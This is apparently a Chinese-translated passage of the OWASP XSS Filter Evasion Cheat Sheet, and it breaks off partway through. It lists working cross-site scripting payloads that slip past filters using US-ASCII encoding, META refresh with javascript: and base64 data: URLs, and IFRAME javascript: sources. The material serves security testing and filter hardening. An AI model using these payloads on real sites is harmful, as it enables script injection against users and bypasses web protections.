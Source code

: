 ### US-ASCII 编码[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#us-ascii-encoding)

US-ASCII 编码（由 Kurt Huwig 发现）。它使用 7 位而不是 8 位的格式错误的 ASCII 编码。此 XSS 可能会绕过许多内容过滤器，但仅在主机以 US-ASCII 编码传输或您自己设置编码时才有效. 这对于 Web 应用程序防火墙跨站点脚本规避比服务器端过滤器规避更有用。Apache Tomcat 是唯一已知的以 US-ASCII 编码传输的服务器。

```
¼script¾alert(¢XSS¢)¼/script¾
```

### 元[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#meta)

元刷新的奇怪之处在于它不会在标头中发送引荐来源网址 - 因此它可以用于某些类型的攻击，您需要摆脱引荐网址：

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### META 使用数据[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#meta-using-data)

指令 URL 方案。这很好，因为它也没有任何明显的包含单词 SCRIPT 或 JavaScript 指令的东西，因为它使用 base64 编码。请参阅 RFC 2397 了解更多详情，或前往此处或此处自行编码。如果您只想对原始 HTML 或 JavaScript 进行编码，也可以使用下面的 XSS[计算器，因为它具有 Base64 编码方法：](http://ha.ckers.org/xsscalc.html)

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### 带有附加 URL 参数的 META[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#meta-with-additional-url-parameter)

如果目标网站试图查看 URL 是否`<http://>;`在开头包含，您可以使用以下技术（由 Moritz Naumann 提交）避开它：

```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

### 框架[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#iframe)

如果允许 iframe，还有很多其他 XSS 问题：

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### 基于 IFRAME 事件[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#iframe-event-based)

IFrame 和大多数其他元素可以使用基于事件的混乱，如下所示......（提交者：David Cross）
